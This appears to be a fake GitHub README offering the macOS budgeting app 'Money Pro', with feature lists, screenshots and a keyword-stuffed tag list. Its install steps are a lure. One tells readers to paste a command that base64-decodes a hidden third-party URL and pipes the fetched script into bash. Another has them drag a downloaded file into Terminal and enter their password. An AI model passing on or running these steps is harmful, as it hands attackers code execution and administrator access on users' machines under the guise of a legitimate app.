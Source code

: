 # 💸 Money Pro — Personal Finance & Budgeting App for macOS

Money Pro is the ultimate finance and budget planner app for macOS. Whether you're managing personal expenses or small business finances, Money Pro gives you everything you need — from budgets and bills to powerful analytics and beautiful UI.

[![🚀 Download Money Pro 🟣](https://img.shields.io/badge/Download-Money%20Pro-blueviolet)](https://moneydance-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Money Pro?

Money Pro is an advanced money management tool for macOS. It allows you to plan budgets, track expenses, monitor bills, and analyze your financial behavior across all your Apple devices.

Whether you're a freelancer, a household budgeter, or a small business owner, Money Pro helps you stay on top of your finances with ease and elegance.

---

## ✨ Features

- 💰 Expense & income tracking with custom categories  
- 🧾 Bill planning with calendar view  
- 📊 Budget planner with progress indicators  
- 🔄 Recurring transactions & automation  
- 🌐 Sync across devices via iCloud  
- 🔒 Secure with Face ID and Touch ID support  
- 📈 Detailed reports and graphs  
- 🛠️ Attach receipts and notes to transactions  

---

## 🖼️ Preview

![Money Pro Screenshot 1](https://money.pro/img/preambule_money_pro.jpg)  
![Money Pro Screenshot 2](https://money.pro/img/moneypro_windows_budget.jpg)

---

## 📌 Tags

money pro, moneyguidepro, emoney pro, money guy pro,  
moneyguide pro cost, pro money, money pro app, money pro mac, money pro,  
monefy pro, money manager premium, money pro for mac, my money pro,  
moneyguidepro pricing, money guard pro, emoney pro pricing, envestnet moneyguidepro,  
money pro software, money pro online, money for macbook pro, money pro personal finance,  
1money pro, active money pro, app money pro, get money pro, i money pro,  
i money pro loan app, ibear llc, ibear money pro, imoney pro, income cash pro
